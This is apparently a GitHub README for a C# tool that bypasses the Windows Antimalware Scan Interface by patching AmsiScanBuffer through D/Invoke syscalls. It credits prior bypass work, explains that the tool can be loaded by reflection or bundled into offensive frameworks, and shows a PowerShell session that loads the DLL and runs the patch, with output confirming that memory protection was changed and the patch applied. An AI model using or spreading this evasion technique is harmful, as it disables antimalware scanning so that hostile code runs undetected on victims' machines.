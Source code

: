 # SyscallAmsiScanBufferBypass

AmsiScanBuffer Patch using D/Invoke.

Credit goes to [RastaMouses original work](https://github.com/rasta-mouse/AmsiScanBufferBypass).

I was just using [TheWovers D/Invoke](https://thewover.github.io/Dynamic-Invoke/) to port the `P/Invoke` functions to `D/Invoke`.

### C#

Can be compiled to a DLL and loaded via reflection, or included in a larger .NET Assembly (e.g. [SharpSploit](https://github.com/cobbr/SharpSploit/blob/master/SharpSploit/Evasion/Amsi.cs)).

```
PS > PS C:\temp> add-type -Path .\SyscallBypass.dll
PS > [Patch.bySyscall]::Patch()

[>] Manually mapping kernel32.dll into current process memory

Successfully allocated memory!
Successfully wrote PE header
Successfully wrote section .text
Successfully wrote section .rdata
Successfully wrote section .data
Successfully wrote section .pdata
Successfully wrote section .rsrc
Successfully wrote section .reloc

[>] Module Base : 24AFF3D0000

[>] Process Handle : 7FFF8DC60000

[>] Patch address : 7FFF8DC62420

[+] NtProtectVirtualMemory success, going to patch it now!

[>] Patching at address : 7FFF8DC62420

[+] NtProtectVirtualMemory set back to oldprotect!
```


